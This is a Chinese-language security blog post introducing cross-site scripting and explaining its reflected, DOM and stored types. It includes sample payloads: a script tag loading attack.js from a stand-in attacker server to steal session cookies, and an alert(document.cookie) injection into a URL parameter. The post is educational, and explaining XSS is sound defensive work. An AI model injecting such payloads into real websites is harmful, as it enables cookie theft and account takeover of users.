 #  使用未知技术发现多个 XSS 漏洞   
原创 星空浪子  星空网络安全   2024-11-24 04:08  
  
今天我将讨论使用不同技术的多种 XSS 攻击，这是我在各种漏洞赏金计划中发现的。  
  
XSS：（跨站点脚本）  
是一种安全漏洞，当攻击者将恶意脚本注入其他用户查看的网页时就会发生这种情况。XSS 攻击旨在在受害者浏览器的上下文中执行恶意脚本，从而允许攻击者窃取敏感信息。例如，在 javascript 编程语言中，如果攻击者可以注入类似  
  
  
```
<script src= https://attacker_Server.com/attack.js > </script> 
// 从攻击者服务器加载恶意 Java 脚本文件，执行恶意操作，例如窃取受害者的敏感数据（如会话 cookie）并接管帐户。
```  
  
# ** XSS 的类型？  
  
1] 反射型 XSS：  
是最简单的 XSS 类型。当应用程序在 HTTP 请求中接收数据并以不安全的方式将该数据包含在响应中时，就会发生这种情况。  
例如：  
如果我们在网站中有一个用于过滤服装的类别参数，例如“   
https://example.com?category=t-shirt  
 ”，并且该值以不安全的方式反映在响应中，<p>t-shirt</p>  
这意味着我们可以注入我们的有效载荷，例如<p><script>alert(document.cookie)</script></p>  
获取会话 cookie。  
  
2] DOM XSS：  
当 JavaScript 从攻击者可控制的  
源  
（例如 URL）获取数据并将其传递给支持动态代码执行的  
接收器  
（例如eval()  
   
或 ）时，就会发生这种情况innerHTML  
。这使攻击者能够执行恶意的 JavaScript，您需要深入了解 DOM 的最重要的事情是  
源  
和  
接收器。  
有关源和接收器的更多信息，请查看  
portswigger  
。  
  
  
  
3] 存储型 XSS：  
当应用程序从不受信任的来源接收数据，并在其后续 HTTP 响应中不安全地包含该数据时，就会发生这种情况。  
例如：  
假设一个网站允许用户  
对向其他用户显示的博客文章发表  
评论。  
  
攻击者  
提交恶意评论，这些评论将存储  
在   
服务器  
上   
，当其他用户看到这些恶意评论时，攻击者就会  
窃取他们的数据  
。  
  